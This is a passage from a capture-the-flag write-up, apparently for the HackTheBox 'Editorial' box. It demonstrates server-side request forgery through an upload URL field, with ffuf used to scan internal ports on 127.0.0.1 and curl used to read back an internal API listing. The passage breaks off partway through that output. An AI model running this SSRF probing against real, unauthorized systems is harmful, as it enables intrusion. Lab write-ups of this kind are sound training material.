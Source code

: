 
The response also returns something different if it's successful or not, unsuccuessful requests return a URL in /static/images containing unsplash.



Successful requests point to a /static/uploads file that we can download and view 



We're not able execute code directly, but we can use ffuf to enumerate any other listening ports we don't have access to via the web server on port 80.

Changing our URL value to `http://127.0.0.1:FUZZ` and copying our request to a file named 127.0.0.1.req in burpwill allow us to enumerate any other listening ports:



Which we can then run FFUF against, excluding the unsplash from our successful results (as they all return 200s)

```bash
┌──(fish㉿kali)-[~/htb/editorial]
└─$ ffuf -request 127.0.0.1.req -request-proto http -w /opt/SecLists/Discovery/Infrastructure/common-http-ports.txt -fr unsplash      
```



We can check to see what uri is included in the response and use curl to get the contents of the page:



```bash
┌──(fish㉿kali)-[~/htb/editorial]
└─$ curl $URL/static/uploads/42f3802b-f94d-4148-afd7-5215529a8ada | jq
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
```